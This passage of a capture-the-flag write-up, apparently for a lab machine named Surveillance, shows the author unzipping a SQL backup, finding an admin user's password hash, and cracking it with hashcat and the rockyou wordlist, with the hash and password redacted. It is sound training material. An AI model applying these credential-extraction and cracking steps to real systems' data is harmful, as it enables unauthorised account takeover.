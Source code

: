 We unzip and find out it is a ASCII text file.

```shell
labadmin@labmachine:~/surveillance$ unzip surveillance--2023-10-17-202801--v4.4.14.sql.zip
Archive:  surveillance--2023-10-17-202801--v4.4.14.sql.zip
  inflating: surveillance--2023-10-17-202801--v4.4.14.sql

labadmin@labmachine:~/surveillance$ file surveillance--2023-10-17-202801--v4.4.14.sql
surveillance--2023-10-17-202801--v4.4.14.sql: ASCII text
```

Now we open the file in `vi` and investigate. After searching for `Matthew` we found the following entry containing a hash.

```shell
--
-- Dumping data for table `users`
--

LOCK TABLES `users` WRITE;
/*!40000 ALTER TABLE `users` DISABLE KEYS */;
set autocommit=0;
INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','[OMITTED]','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
/*!40000 ALTER TABLE `users` ENABLE KEYS */;
UNLOCK TABLES;
commit;
```

The hash looks exactly as a sha256 hash so we use hashcat to try crack it.

We start add the hash in a file.

```shell
echo '[OMITTED]' > matthew.hash
```

Next we check hashcat `hash-mode` from `hashcat --help` or their [Hashcat - WIKI](https://hashcat.net/wiki/doku.php?id=hashcat)

```shell
   1400 | SHA2-256                                                   | Raw Hash
```

We use the hash-mode `-m 1400` and run with `rockyou.txt` word list the password is successfully cracked.

```labadmin@labmachine:~/surveillance$ hashcat -a 0 -m 1400 matthew.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

[OMITTED]
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

[OMITTED]:[OMITTED]

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
[OMITTED]
```

